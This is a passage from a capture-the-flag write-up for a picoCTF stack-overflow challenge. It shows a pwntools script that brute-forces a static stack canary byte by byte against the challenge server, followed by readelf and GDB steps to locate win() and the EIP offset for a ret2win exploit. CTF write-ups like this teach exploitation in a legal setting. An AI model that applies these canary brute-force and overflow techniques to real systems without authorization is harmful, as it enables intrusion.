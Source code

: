 ```python
        char = chr(i).encode()
        payload = offset + canary + char # craft payload with testing canary

        # p = process(elf.path)
        p = remote('saturn.picoctf.net', 60206)

        p.recvline().decode("utf-8")
        p.sendline(str(len(payload)).encode())
        p.recvuntil(b'Input> ')
        p.sendline(payload)
        # print(payload)
        resp = p.recvall().decode()
        if "Ok" in resp: # byte in current position is correct
            canary += char # append to canary value
            print(canary)
            p.close()
            break
        p.close()

print("Stack canary is:")
print(canary.decode())
```

By running the script, we know that the static canary value is `BiRd`.

Now, since we know the canary value, we can proceed to derive the offset to EIP, and craft our ret2win exploit as per normal.

Using `readelf`,

```bash
$ readelf -s vuln
>> Symbol table '.symtab' contains 77 entries:
...
70: 08049336   179 FUNC    GLOBAL DEFAULT   15 win
...
```

The address of `win()` is `0x08049336`.

Next, we'll be using GDB to find the EIP offset. Let's prepare the first chunk of our payload first:

```bash
$ python -c 'print "A"*64 + "BiRd"' # to fill the buffer + canary
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABiRd
```

Now, using GDB,

```bash
$ gdb vuln
>> ...
gef➤  pattern create 64
[+] Generating a pattern of 64 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
How Many Bytes will You Write Into the Buffer?
> 200
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABiRdaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
Ok... Now Where's the Flag?

Program received signal SIGSEGV, Segmentation fault.
0x61616165 in ?? ()
...
```